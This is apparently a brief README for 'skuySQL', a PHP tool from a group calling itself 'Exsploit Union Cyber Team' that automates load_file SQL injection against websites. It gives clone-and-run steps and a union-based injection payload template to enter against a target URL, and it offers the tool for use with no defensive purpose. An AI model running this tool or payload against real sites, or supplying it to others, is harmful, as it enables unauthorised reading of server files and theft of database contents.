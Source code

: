 Membantu anda untuk melakukan Injeksi load_file pada POC SQL Outfile

usage :
$ git clone https://github.com/indosecid/skuySQL.git
$ cd skuySQL
$ php skuySQL.php
$ enter your target : https://domain.com/detail.php?id=-1' union select 1,2,{exploit},4-- -


and Enjoy it.... 

Mr CR45H  -  Exsploit Union Cyber Team 
